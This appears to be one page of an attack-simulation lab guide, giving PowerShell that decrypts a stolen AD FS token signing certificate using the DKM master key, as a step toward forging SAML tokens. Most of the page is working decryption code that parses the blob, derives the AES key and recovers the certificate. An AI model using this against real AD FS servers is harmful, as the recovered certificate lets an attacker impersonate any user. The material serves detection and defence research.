

# Decrypt Active Directory Federation Services (AD FS) Token Signing Certificate

After [extracting the AD FS token signing certificate](extractADFSTokenSigningCertificate.md) and [obtaining the AD FS DKM master key](exportADFSDKMMasterKeyFromDC.md), we can use the master key value to derive a symmetric key and decrypt the AD FS certificate.

## Preconditions
* Endpoint: ADFS01 or WORKSTATION6
    * Even when this step would happen outside of the organization, we can use the same PowerShell session on one of the endpoints where we exported AD FS certificates (token signing and encryption) and [obtained the AD FS DKM master key](exportADFSDKMMasterKeyFromDC.md) from to go through the simulation steps.
    * [AD FS DKM Master Key](exportADFSDKMMasterKeyFromDC.md)
        * Use the output from this step and pass it to the PowerShell commands below as the variable `$key`.
    * AD FS token signing certificate (Encrypted format)
        * After [extracting the token signing certificate](extractADFSTokenSigningCertificate.md), the output is saved to the variable `$encTokenSigningPfx`. You can use it in the PowerShell commands below.

## Decrypt Token Signing Certificate

```PowerShell
$encPfxBytes=[System.Convert]::FromBase64String($encTokenSigningPfx)
$guid=        $encPfxBytes[8..25]  # 18 bytes
$KDF_oid=     $encPfxBytes[26..36] # 11 bytes
$MAC_oid=     $encPfxBytes[37..47] # 11 byte
$enc_oid=     $encPfxBytes[48..58] # 11 bytes
$nonce=       $encPfxBytes[59..92] # 34 bytes
$iv=          $encPfxBytes[93..110] # 18 bytes
$ciphertext = $encPfxBytes[115..$($encPfxBytes.Length-33)]
$cipherMAC =  $encPfxBytes[$($encPfxBytes.Length-32)..$($encPfxBytes.Length)]

# Create the label
$label = $enc_oid + $MAC_oid

# Derive the decryption key using (almost) standard NIST SP 800-108. The last bit array should be the size of the key in bits, but MS is using bytes (?)
# As the key size is only 16 bytes (128 bits), no need to loop.
$hmac = New-Object System.Security.Cryptography.HMACSHA256 -ArgumentList @(,$key)
$hmacOutput = $hmac.ComputeHash( @(0x00,0x00,0x00,0x01) + $label + @(0x00) + $nonce[2..33] + @(0x00,0x00,0x00,0x30) )
$decryptionKey = $hmacOutput[0..15]
Write-Verbose "Decryption key:"
Write-Verbose "$($decryptionKey|Format-Hex)"
# Create a decryptor and decrypt
$Crypto = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
$Crypto.Mode="CBC"
$Crypto.KeySize = 128
$Crypto.BlockSize = 128
$Crypto.Padding = "None"
$Crypto.Key = $decryptionKey
$Crypto.IV = $iv[2..17]
$decryptor = $Crypto.CreateDecryptor()

# Create a memory stream and write the cipher text to it through CryptoStream
$ms = New-Object System.IO.MemoryStream
$cs = New-Object System.Security.Cryptography.CryptoStream($ms,$decryptor,[System.Security.Cryptography.CryptoStreamMode]::Write)
$cs.Write($ciphertext,0,$ciphertext.Count)
$cs.Close()
$cs.Dispose()

# Get the results
$tokenSigningPfx = $ms.ToArray()
$ms.Close()
$ms.Dispose()
```



## Output

Use the variable `$tokenSigningPfx` (cipher text) in the next step to [export the AD FS token signing certificate as a PFX file](exportADFSTokenSigningCertAsPfxFile.md).

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)